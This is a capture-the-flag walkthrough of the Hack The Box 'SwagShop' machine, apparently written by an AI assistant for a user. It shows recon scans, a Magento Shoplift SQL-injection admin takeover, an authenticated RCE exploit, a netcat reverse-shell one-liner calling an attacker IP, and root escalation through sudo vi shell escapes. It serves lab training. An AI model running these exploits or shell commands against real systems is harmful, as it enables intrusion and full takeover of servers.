 [Done](Done)
## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
- **Initial Access**: Magento authentication bypass + RCE
- **Privilege Escalation**: `sudo vi` file escape

---

## 🔍 Recon

### 🔎 Full Port Scan
```bash
nmap -sT -p- --min-rate 10000 -oA shagshop_basic 10.10.10.140
```

### 🔎 Script & Version Scan
```bash
nmap -sCV -p 80,22 -oA swagshop_scv 10.10.10.140
```

---

## 📂 Web Enumeration

### 🔍 Directory Brute Force
```bash
gobuster dir -u http://10.10.10.140 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 50 -x php
```

---

## 🐚 Shell as www-data

### 👤 Add Admin via [Shoplift Exploit](https://github.com/joren485/Magento-Shoplift-SQLI/blob/master/poc.py)
```bash
python poc.py 10.10.10.140
# Result: ypwq:123 added as admin
```

### 🔓 Login to Admin Panel
Navigate to:
```
http://10.10.10.140/index.php/admin
```

### 🧪 RCE #1 – PHP Object Injection

#### 📦 Retrieve Magento Install Date
```bash
curl -s http://10.10.10.140/app/etc/local.xml | grep date
```

#### 💣 Download Authenticated RCE Exploit
```bash
searchsploit -m exploits/php/webapps/37811.py
mv 37811.py magento_rce.py
```

#### ⚙️ Configure Exploit
Edit `magento_rce.py`:
```python
username = 'ypwq'
password = '123'
php_function = 'system'
install_date = 'Wed, 08 May 2019 07:23:09 +0000'
```

#### ▶️ Execute Command
```bash
python magento_rce.py 'http://10.10.10.140/index.php/admin' "uname -a"
```

## ⚡ Get Reverse Shell

### 🧬 Reverse Shell Payload
```bash
python magento_rce.py 'http://swagshop.htb/index.php/admin' \
"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.13 9001 >/tmp/f"
```

### 📡 Catch Shell
```bash
nc -lnvp 9001
```

---

## 🔼 Privilege Escalation (www-data → root)

### 📟 Upgrade Shell
```bash
python -c 'import pty;pty.spawn("/bin/bash")'
# Press Ctrl+Z
stty raw -echo
fg
reset
# Enter: screen
export TERM=screen
```

### 🔍 Check Sudo Permissions
```bash
sudo -l
```

> Output:
```
(root) NOPASSWD: /usr/bin/vi /var/www/html/*
```

---

## 👑 Root Access

### 📖 Read Flag via `vi`
```bash
sudo /usr/bin/vi /var/www/html/../../../root/root.txt
```

### 🐚 Get Root Shell via vi
```bash
sudo /usr/bin/vi /var/www/html/a

# Inside vi:
:set shell=/bin/bash
:shell
```

Or run directly from command line:
```bash
sudo vi /var/www/html/a -c ':!/bin/sh'
```

---

Let me know if you'd like this saved as a reusable template or combined with your other write-ups!